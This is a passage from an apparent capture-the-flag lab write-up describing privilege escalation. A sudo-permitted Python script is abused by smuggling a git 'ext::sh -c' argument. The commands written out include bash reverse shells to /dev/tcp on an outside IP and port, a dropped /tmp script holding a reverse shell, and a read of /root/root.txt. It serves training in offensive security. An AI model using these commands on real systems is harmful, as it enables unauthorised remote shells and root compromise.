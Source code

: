 > Then I also tried to create a reverse shell by the following command
> All of them are failed to connect to my host, even the response message same as previous one.

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c "bash -i >& /dev/tcp/10.10.14.218/1338 0>&1"'
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c 'bash% -i% >&% /dev/tcp/10.10.14.218/1338% 0>&1'"
```

![](./IMG/59.png)

> Create a file and execute it by this vulnerability

```
echo '#!/bin/bash' > /tmp/exp.sh
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.218/1338 0>&1'" >> /tmp/exp.sh
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exp.sh'"
```
![](./IMG/60.png)

> After multiple testing, I can read the root flag to a new file in /tmp 

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c cat% /root/root.txt > /tmp/root.txt
```
